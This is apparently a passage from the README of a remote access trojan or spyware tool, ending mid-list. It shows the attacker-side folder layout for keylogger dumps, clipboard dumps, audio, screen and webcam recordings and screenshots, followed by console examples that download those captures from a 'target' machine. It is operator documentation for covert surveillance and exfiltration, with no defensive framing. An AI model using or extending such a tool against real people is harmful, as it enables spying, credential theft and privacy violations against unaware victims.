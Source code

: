 ## File Organization Structure

When files are downloaded from the target to the attacker machine, they are automatically organized into this structure:

```
attacker_machine/
├── logs/
│   ├── audio/              # Audio recordings (*.wav)
│   │   └── audio_YYYYMMDD_HHMMSS.wav
│   ├── clipboard/          # Clipboard dumps (*.txt)
│   │   └── clipboard_dump_YYYYMMDD_HHMMSS.txt
│   ├── keylog/            # Keylogger dumps (*.txt)
│   │   └── keylog_dump_YYYYMMDD_HHMMSS.txt
│   ├── recordings/        # Screen recordings (*.mp4, *.avi, *.mkv)
│   │   └── screen_recording_YYYYMMDD_HHMMSS.mp4
│   ├── screenshots/       # Screenshots (*.png)
│   │   └── screenshot_YYYYMMDD_HHMMSS.png
│   └── webcam/           # Webcam captures (*.jpg)
│       └── webcam_YYYYMMDD_HHMMSS.jpg
└── server.py
```

## Usage Examples

### Automatic Organization

1. **Download Screenshot:**

   ```
   [target]> download logs/screenshots/screenshot_20241004_123456.png
   [+] File downloaded: logs/screenshots/screenshot_20241004_123456.png
   ```

2. **Download Audio Recording:**

   ```
   [target]> download logs/audio/audio_20241004_123456.wav
   [+] File downloaded: logs/audio/audio_20241004_123456.wav
   ```

3. **Download Screen Recording:**

   ```
   [target]> download logs/recordings/screen_recording_20241004_123456.mp4
   [+] File downloaded: logs/recordings/screen_recording_20241004_123456.mp4
   ```

4. **Download Webcam Image:**

   ```
   [target]> download logs/webcam/webcam_20241004_123456.jpg
   [+] File downloaded: logs/webcam/webcam_20241004_123456.jpg
   ```

5. **Keylog Dump (Automatic):**
